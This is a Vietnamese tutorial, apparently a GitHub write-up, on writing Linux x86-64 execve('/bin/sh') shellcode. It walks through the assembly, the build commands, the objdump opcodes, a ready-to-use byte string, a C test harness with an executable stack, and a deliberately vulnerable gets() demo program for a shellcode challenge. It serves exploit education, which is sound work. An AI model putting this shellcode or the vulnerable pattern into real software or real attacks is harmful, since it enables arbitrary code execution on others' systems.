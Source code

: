 # Shellcoding (Linux)
Khái niệm về shellcode có rất nhiều bài viết định nghĩa về nó, nên mình sẽ đề cập lại ở đây .Các bạn có thẻ tham khảo 1 số bài viết:
- https://vnhacker.blogspot.com/2006/12/shellcode-thn-chng-nhp-mn.html
- https://en.wikipedia.org/wiki/Shellcode

Tiếp theo mình sẽ nói về cách viết 1 shellcode cơ bản, cụ thể ở đây là 1 shellcode thực thi việc lên shell. Việc lên shell ở đây bản chất là ta sử dụng syscall execve("/bin/sh", NULL, NULL). Syscall là gì thì mình có giải thích qua ở bài viết về ROP bạn có thể tham khảo ở đây:
- https://github.com/shawking2/Writeup/tree/main/ROP

Để Shellcode có thể thực thi trong chương trình thì ta cần 1 số điều kiện cơ bản:

\+ Vùng nhớ ta đặt shellcode phải có quyền execute 
\+ Instruction call địa chỉ mà ta trữ shellcode đó. Khi đó shellcode sẽ được thực thi.
\+ Instruction ret về địa chỉ chú shellcode
\+ Lệnh nhảy về địa chỉ chứ shellcode của ta
\+ Mình chỉ liệt kê cách cách thực thi shellcode thường gặp mà mình thấy (vẫn còn nhiều trường hợp khác)

Để viết một shellcode sử dụng syscall execve("/bin/sh", NULL, NULL). Đầu tiên ta phải viết 1 chương trình assembly call syscall exceve("/bin/sh", NULL, NULL):
```
section .text
  global _start
    _start:
      push rax                    
      mov rbx,'/bin//sh'            # cho rbx chứa chuỗi "/bin/sh"
      xor rsi, rsi                  # rsi = NULL tham số thứ thứ 3 của exceve
      xor rdx, rdx                  # rdx = NULL tham số thứ thứ 3 của exceve
      push rbx                      # push chuỗi '/bin/sh' vào stack. Điều ngày có nghĩa rsp đang mang giá trị là địa chỉ của chuỗi '/bin/sh' 
      push rsp                      # push giá trị của rsp -> địa chỉ của '/bin/sh'
      pop rdi                       # rbx sẽ chứa đối số đầu tiên của excecve  -> "/bin/sh"
      mov al, 0x3b                  # syscall number của exceve
      syscall
```
Để biên dịch nó ta sẽ đưa đoạn code này lưu vào 1 file .asm .Sau dó dùng các lệnh sau để biên dịch:

> nasm -f elf64 shellcode.asm -o shellcode.o
> ld shellcode.o -o shellcode
Thao tác vừa rồi, ta vừa biên dịch đoạn code asm thành file binary:
```
higgs@DESKTOP-PMDB9KR:~$ ./shellcode
$ whoami
shawking
$
```
Run file này ta có thể thấy t đã hoàn thành việc lên shell nhờ gọi syscall exceve("/bin/sh", NULL, NULL).

Vậy thì tiếp theo làm sao ta tạo ra 1 shellcode .Nếu các bạn đã đọc qua cái bài viết ở trên thì bạn sẽ biết rằng shellcode chính là các byte code. Byte code ở đây thức chất chính là các opcode của các instruction trong chương trình ta vừa viết. Vậy để có được shellcode ta chỉ cần xem opcode của nó.

Công cụ objdump sẽ giúp ta điều này:
```
higgs@DESKTOP-PMDB9KR:~$ objdump --disassemble test

test:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:       50                      push   %rax
  401001:       48 31 d2                xor    %rdx,%rdx
  401004:       48 31 f6                xor    %rsi,%rsi
  401007:       48 bb 2f 62 69 6e 2f    movabs $0x68732f2f6e69622f,%rbx
  40100e:       2f 73 68
  401011:       53                      push   %rbx
  401012:       54                      push   %rsp
  401013:       5f                      pop    %rdi
  401014:       b0 3b                   mov    $0x3b,%al
  401016:       0f 05                   syscall
```
Các bạn quan sát sẽ thấy có 1 cột hiện thị mã hex:

![screenshot](https://github.com/shawking2/Writeup/blob/main/ShellCode/img/opcode.PNG)
Xâu chuỗi các mã hex lại theo thú tự như trên ta có 1 chuỗi shellcode thực thi exceve("/bin/sh",NULL, NULL)
> SHELLCODE: 
```
\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
```
Ta có thể viết 1 đoạn code c đẻ kiểm tra shellcode của chúng ta (lưu ý ta phải thêm tham số -z execstack để có quyền execute trên stack)
```
#include <stdio.h>

unsigned char shellcode[] = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05";
main()
{
    int (*ret)() = (int(*)())shellcode;
    ret();
}
```
Biên dịch :  gcc -z execstack -o shell shell.c
Kết quả thực thi:
```
higgs@DESKTOP-PMDB9KR:~$ gcc -z execstack -o test test.c
test.c:4:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
    4 | main()
      | ^~~~
higgs@DESKTOP-PMDB9KR:~$ ./test
$ whoami
shawking
$
```
Phân tích assembly của chương trình trên sẽ hiệu tại sao shellcode được thực thi:
```
   0x555555555129 <main+4>             sub    rsp, 0x10
   0x55555555512d <main+8>             lea    rax, qword ptr [rip + 0x2efc] <0x555555558030>
   0x555555555134 <main+15>            mov    qword ptr [rbp - 8], rax
   0x555555555138 <main+19>            mov    rdx, qword ptr [rbp - 8]
   0x55555555513c <main+23>            mov    eax, 0
 ► 0x555555555141 <main+28>            call   rdx <shellcode>
        rdi: 0x1
        rsi: 0x7fffffffdff8 —▸ 0x7fffffffe207 ◂— '/home/higgs/test'
        rdx: 0x555555558030 (shellcode) ◂— push   rax /* 0x48f63148d2314850 */
        rcx: 0x7ffff7fac718 (__exit_funcs) —▸ 0x7ffff7faeb00 (initial) ◂— 0

   0x555555555143 <main+30>            mov    eax, 0
   0x555555555148 <main+35>            leave
   0x555555555149 <main+36>            ret
```
Tại đây instruction call sẽ call địa chỉ chứa shellcode của chúng ta. Khi đó shellcode sẽ được thi.
> Challenge demo:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

// gcc -z execstack -o demo demo.c -no-pie
int main(void)
{
  char buffer[32];
  printf("DEBUG: %p\n", buffer);
  gets(buffer);
}
```
### File binary: [demo]
(https://github.com/shawking2/Writeup/blob/main/ShellCode/src/demo?raw=true)







